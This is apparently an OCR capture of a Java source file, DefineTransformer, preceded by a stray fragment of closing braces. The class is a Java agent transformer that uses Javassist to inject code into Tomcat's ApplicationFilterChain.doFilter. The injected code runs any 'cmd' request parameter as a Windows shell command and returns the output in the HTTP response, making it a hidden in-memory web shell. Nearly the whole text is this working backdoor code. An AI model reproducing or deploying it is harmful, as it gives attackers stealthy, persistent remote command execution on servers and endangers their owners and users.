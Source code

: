 ```java
            }
        }
    }
}

```

```java
import javassist.*;

import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
            pool.appendClassPath(classPath);
            try {
                System.out.println("className:"+className);
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "java.lang.String[] cmds = new java.lang.String[]{\"cmd\",\"/c\",cmd};\n"+
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}

```